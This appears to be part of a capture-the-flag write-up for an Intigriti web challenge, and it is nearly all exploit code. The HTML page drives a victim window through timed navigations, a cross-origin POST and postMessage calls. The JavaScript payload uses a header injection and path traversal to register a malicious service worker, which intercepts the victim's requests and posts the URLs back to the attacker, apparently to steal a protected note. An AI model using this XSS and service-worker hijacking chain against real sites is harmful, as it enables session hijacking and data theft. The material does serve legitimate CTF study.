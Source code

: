 ```html

      function logMessage(event) {
        if (event.data.noteId) {
          var id = event.data.noteId;
          setTimeout(() => (kk.location = `${url}/note/${id}`), 3000); //trigger the xss that register the service worker
          setTimeout(() => (kk.location = `${url}/notes`), 10000);
          setTimeout(() => (kk.location = `${url}/note/${id}`), 13000); //refresh the page so that service worker use the cached version of it
          setTimeout(() => kk.location.reload(), 20000);
          setTimeout(() => (window.location = `${url}/note/${id}`), 20000); // navigating to the url again so that the worker can intercept and send it to me.
        }
      }

      function openWindow(url) {
        kk = window.open(url + "/notes", "exp");
        setTimeout(() => {
          fetch(url + "/api/post", {
            method: "POST",
            credentials: "include",
            mode: "no-cors",
            body: new Blob([
              `{"title":"test","content":["${cont}"],"use_password":"false"}`,
            ]),
          });
        }, 2000);
        setTimeout(() => {
          kk = window.open(url + "/protected-note", "exp");
        }, 4000);

        setTimeout(() => {
          kk.postMessage({ type: "submitPassword", password: "" }, "*");
        }, 7000);
      }

      addEventListener("message", logMessage);
      document.addEventListener("click", (e) => openWindow(url));
    </script>
  </body>
</html>
```

The JS hosted at line 14 is:
```js
var head = `test"}});var document; function $() {function ready() {}; return {ready}};self.addEventListener("install", (e) => self.skipWaiting()), self.addEventListener("activate", (e) => e.waitUntil(self.clients.claim())), self.addEventListener("fetch", (e) => { const u = new URL(e.request.url); if (u.origin === self.origin || u.origin === self.location.origin) e.respondWith(fetch(e.request).then(async (r) => { const locationHeader = r.headers.get("Location"); const responseClone = r.clone(); const clients = await self.clients.matchAll(); clients.forEach((cl) => cl.postMessage({ type: "LOG_URL", url: u.href, location: locationHeader || null })); return responseClone; })); }); $(document).ready(function(){const userDetails = {ip:"test`;

fetch(
  "https://challenge-0325.intigriti.io/view_protected_note.js?id=/../../l-kkkk-kkkk-/../-/‥/api/track",
  {
    method: "GET",
    headers: { "x-user-ip": head },
    cache: "reload",
    mode: "same-origin",
    credentials: "include",
  }
```